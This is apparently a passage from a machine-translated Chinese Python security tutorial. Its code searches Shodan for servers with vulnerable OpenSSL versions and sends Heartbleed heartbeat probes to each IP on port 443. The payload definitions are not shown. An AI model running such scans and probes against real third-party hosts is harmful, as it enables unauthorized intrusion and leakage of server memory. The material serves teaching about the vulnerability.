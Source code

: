  ****在下面的代码中，我们回顾了我们可以开发的用于搜索 shodan 服务器的主要方法，这些服务器由于 openssl 版本易受攻击而易受攻击，我们还需要检查端口 443 是否已打开：

```py
def shodanSearchVulnerable(self,query):
    results = self.shodanApi.search(query)
    # Show the results
    print('Results found: %s' % results['total'])
    print('-------------------------------------')
    for result in results['matches']:
        try:
            print('IP: %s' % result['ip_str'])
            print(result['data'])
            host = self.obtain_host_info(result['ip_str'])
            portArray = []
            for i in host['data']:
                port = str(i['port'])
                portArray.append(port)
            print('Checking port 443........................')
            #check heartbeat vulnerability in port 443
            checkVulnerability(result['ip_str'],'443')
        except Exception as e:
            print('Error connecting: %s' % e)
            continue
        except socket.timeout:
            print('Error connecting Timeout error: %s' % e)
            continue

    print('-----------------------------------------------')
    print('Final Results')
    print('-----------------------------------------------')
    if len(server_vulnerable) == 0:
        print('No Server vulnerable found')
    if len(server_vulnerable) > 0:
        print('Server vulnerable found ' + str(len(server_vulnerable)))

    for server in server_vulnerable:
        print('Server vulnerable: '+ server)
        print(self.obtain_host_info(server))
```

一旦我们定义了在 shodan 中搜索的方法并检查`port 443`已打开，我们就可以使用`socket`模块特定的心脏出血漏洞进行检查：

```py
def checkVulnerability(ip,port):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print('Connecting with ...' + ip + ' Port: '+ port)
        sys.stdout.flush()
        s.connect((ip, int(port)))
        print('Sending Client Request...')
        sys.stdout.flush()
        s.send(hello)
        print('Waiting for Server Request...')
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print('Server closed connection without sending Server Request.')
                break
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break
            print('Sending heartbeat request...')
            sys.stdout.flush()
            s.send(hb)
```